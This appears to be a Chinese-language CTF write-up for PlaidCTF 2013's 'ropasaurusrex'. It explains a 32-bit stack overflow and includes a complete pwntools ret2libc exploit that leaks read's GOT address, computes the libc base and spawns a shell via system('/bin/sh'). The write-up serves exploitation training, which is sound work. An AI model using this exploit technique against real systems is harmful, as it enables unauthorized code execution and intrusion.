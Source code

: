 ```yaml
---
title: '''PlaidCTF-2013-ropasaurusrex'''
date: 2018-03-17 20:36:41
tags: pwn
---
```

分析：  
buf大小只有0x88,但是却允许被读入0x100的字节大小，造成缓冲区溢出。程序是32位。  
定义函数：ssize_t write (int fd, const void * buf, size_t count);   
函数说明：write()会把参数buf 所指的内存写入count 个字节到参数fd 所指的文件内. 当然, 文件读写位置也会随之移动.  

攻击思路：   
1.构造 payload leak 内存中的一个函数地址，比如 read ，write（返回地址是有漏洞的函数，以便第二次利用）
2.计算libc base，得到 system 地址
3.构造payload get shell


info leak:  
payload：  
`'A' * N + p32(write_plt) + p32(ret) + p32(1) + p32(address) + p32(4)`  
输入N个字符后发生溢出，write_plt的地址将会覆盖 read 函数的返回地址，随后程序将会跳转到write函数，我们在栈中构造了write函数的3个参数和返回地址，这段payload相当于让程序执行
`write(1, address, 4)`;   
这样就可以dump出内存中地址为address处的4字节数据。 (参考：[初探ROP攻击 Memory Leak & DynELF](http://blog.csdn.net/smalosnail/article/details/53386353))
```
from pwn import *
elf = ELF('./ropasaurusrex')
io = process('./ropasaurusrex')
libc = ELF('/lib/i386-linux-gnu/libc.so.6') #原本写的 ./libc.so.6 出错了
buf_len = 0x88  
vun_fun = 0x80483F4   #存在漏洞函数的地址
read_offset = libc.symbols['read']
#leak info 
payload = 'a'*140+p32(elf.symbols['write'])+p32(vun_fun)+p32(1)+p32(elf.got['read'])+p32(4)
io.send(payload)
msg = io.recv(4)
read_addr = u32(msg)

#get shell
libc_base = read_addr-read_offset
sys_addr = libc_base+libc.symbols['system']
bin_addr = libc_base+next(libc.search('/bin/sh'))
payload = 'a'*140+p32(sys_addr)+p32(0xdeafbeef)+p32(bin_addr)

io.send(payload)
io.interactive()
```
